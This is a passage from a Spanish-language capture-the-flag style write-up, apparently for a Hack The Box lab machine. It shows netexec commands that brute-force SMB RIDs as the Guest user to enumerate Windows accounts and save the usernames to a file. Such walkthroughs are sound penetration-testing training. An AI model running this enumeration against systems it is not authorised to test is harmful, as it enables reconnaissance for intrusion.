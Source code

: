 ### Performing a RID Brute Force Attack using Netexec

Procederemos a realizar con **netexec** sobre el SMB un ataque de **RID Brute Force Attack**.

Un ataque de fuerza bruta RID consiste en probar diferentes valores de RID (Relative Identifier) para identificar usuarios en un sistema Windows, utilizando el hecho de que los RIDs suelen ser consecutivos a partir de un valor conocido, como el administrador (500) o el invitado (501).

```bash
netexec smb 10.10.11.236 -u 'Guest' -p '' --rid-brute
```

<figure><img src="../../../../../.gitbook/assets/1420_vmware_w3FX8e9D83.png" alt=""><figcaption></figcaption></figure>

Del resultado anterior, extraeremos los campos que nos interesa, los nombres de los usuarios y nos lo guardaremos en "users.txt".

{% code overflow="wrap" %}
```bash
netexec smb 10.10.11.236 -u 'Guest' -p '' --rid-brute | grep SidTypeUser | awk '{print $6}' | sed 's/MANAGER\\//'

netexec smb 10.10.11.236 -u 'Guest' -p '' --rid-brute | grep SidTypeUser | awk '{print $6}' | sed 's/MANAGER\\//' > users.txt

catnp users.txt
```
{% endcode %}
